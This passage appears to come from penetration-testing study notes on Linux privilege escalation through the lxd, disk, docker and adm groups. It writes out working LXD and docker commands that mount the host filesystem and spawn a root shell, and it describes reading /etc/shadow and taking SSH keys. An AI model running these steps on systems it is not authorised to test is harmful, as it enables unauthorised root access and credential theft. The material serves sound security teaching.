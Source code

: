 Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```


## Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command `docker run -v /root:/mnt -it ubuntu`. This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

## ADM

Members of the adm group are able to read all logs stored in `/var/log`. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

# Linux hardening
